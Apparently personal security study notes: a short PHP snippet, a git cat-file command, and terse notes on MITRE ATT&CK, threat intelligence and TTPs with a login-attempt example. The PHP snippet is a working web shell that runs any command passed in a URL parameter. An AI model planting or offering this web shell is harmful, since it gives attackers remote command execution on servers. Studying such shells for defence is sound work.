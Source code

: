 ```
<?php
$output = shell_exec($_GET['cm']);
echo "<pre>$output</pre>"
?>
```
- git cat-file (-t|p) $(cat master)
### mitre att&ck 
  - CTI : Cyber Threat Intelligence
  - TTPS : Tactics Techniques and Procedures : 
       - Example of ttps : Under 5 login attemps --> ban
                         - ttps : 4 login and create new session 
                         - mitigation : 3 Login attemps raises SIEM alert
                          
